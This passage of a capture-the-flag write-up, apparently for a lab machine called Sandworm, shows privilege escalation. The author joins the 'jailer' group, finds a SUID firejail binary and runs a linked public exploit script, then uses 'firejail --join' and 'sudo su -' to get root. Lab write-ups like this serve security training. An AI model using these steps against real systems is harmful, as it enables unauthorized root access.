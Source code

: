 This would give us another reverse shell as `atlas`, but with a different group!

```
atlas@sandworm:/opt/tipnet$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
```

Now we are part of the Jailer group.

### Firejail SUID

We now can run `firejail` as an SUID binary on the machine:

```
atlas@sandworm:/opt/tipnet$ ls -la /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

There are `firejail` SUID binary exploits [online](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25). Using this script, we can easily escalate privileges. Just run the script:

{% code overflow="wrap" %}
```
atlas@sandworm:/dev/shm$ ./suid.py 
You can now run 'firejail --join=10543' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```
{% endcode %}

Then in another shell:

<figure><img src="../../.gitbook/assets/image (2317).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
